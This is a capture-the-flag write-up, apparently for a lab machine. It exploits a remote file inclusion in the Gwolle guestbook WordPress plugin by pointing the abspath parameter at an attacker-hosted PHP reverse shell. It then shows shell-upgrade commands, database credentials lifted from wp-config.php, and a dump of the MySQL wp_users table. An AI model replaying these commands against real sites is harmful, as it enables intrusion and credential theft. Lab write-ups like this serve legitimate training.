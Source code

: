 ![image](https://user-images.githubusercontent.com/10210108/85179562-42236d80-b24f-11ea-93f8-85e843425aad.png)

I copied a reverse php shell to my working directory, renaming it to wp-load.php as per 38861, and updated the IP and Port.

```
cp ~/tools/webshells/php/php-reverse-shell.php wp-load.php
```

I set up a python http server to host the file and started a netcat listner (nc -lvnp 4200)

```
sudo python3 -m http.server 80
```

Curl was run specifying the URL for my box for the abspath parameter and I received a shell as www-data.

```
curl -X GET http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.21/
```

![image](https://user-images.githubusercontent.com/10210108/85180083-83684d00-b250-11ea-937c-306b272eaf0d.png)

I found out why this worked after looking at the readme.txt for gwolle-db

![image](https://user-images.githubusercontent.com/10210108/85213167-b4b44c00-b328-11ea-8245-9fe27500ac69.png)

![image](https://user-images.githubusercontent.com/10210108/85213178-d9102880-b328-11ea-8e05-c3b166ec2858.png)


I upgraded to a fully functioning shell by running the following commands.

```
python -c 'import pty;pty.spawn('/bin/bash')'
CTRL+Z
stty raw -echo
fg <enter><enter>
export SHELL=/bin/bash
export TERM=xterm-color
```

Looking around in /var/www/html/webservices/wp I found a file called wp-config.php that contained some database credentials. **wpuser:w0rdpr3$$d@t@b@$3@cc3$$**

![image](https://user-images.githubusercontent.com/10210108/85180907-a3007500-b252-11ea-8a88-3dcf342f8309.png)

The credentials were used to connect to the mysql database

```
mysql -u wpuser -p
```

![image](https://user-images.githubusercontent.com/10210108/85181041-fecafe00-b252-11ea-9c7c-b656e9af36ec.png)

I selected databse wp (use wp;), listed the tables (show tables;), and selected everything from wp_users (select * from wp_users;). I found the hash for user wpadmin
